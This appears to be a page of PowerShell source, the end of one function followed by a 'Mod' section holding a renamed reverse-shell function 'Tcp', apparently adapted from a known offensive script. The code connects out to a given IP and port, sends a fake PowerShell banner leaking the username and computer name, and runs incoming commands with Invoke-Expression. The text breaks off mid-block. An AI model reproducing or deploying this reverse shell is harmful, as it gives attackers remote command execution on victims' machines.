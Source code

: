 ```Powershell
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
```

#### Mod

```Powershell
function Tcp 
{ 
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse

    )

    
    try 
    {
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
```